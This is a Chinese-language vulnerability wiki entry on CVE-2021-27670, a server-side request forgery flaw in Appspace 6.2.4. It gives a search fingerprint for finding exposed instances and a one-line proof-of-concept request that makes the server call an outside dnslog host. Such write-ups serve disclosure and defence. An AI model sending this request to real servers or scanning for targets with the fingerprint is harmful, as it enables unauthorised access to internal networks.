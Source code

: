 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

<a-checkbox checked>Appspace 6.2.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sign-in-to-Appspace-Core"</a-checkbox></br>

## 漏洞复现

登录页面为

![img](/assets/PeiQi-Wiki/img/1630488521981-cac80156-754a-4388-9f0e-f1b32a25bdca.png)

验证POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://lo2z02.dnslog.cn
```

![img](/assets/PeiQi-Wiki/img/1630488586297-b2ee6e6c-6739-494c-ad7f-39eeb43a486e.png)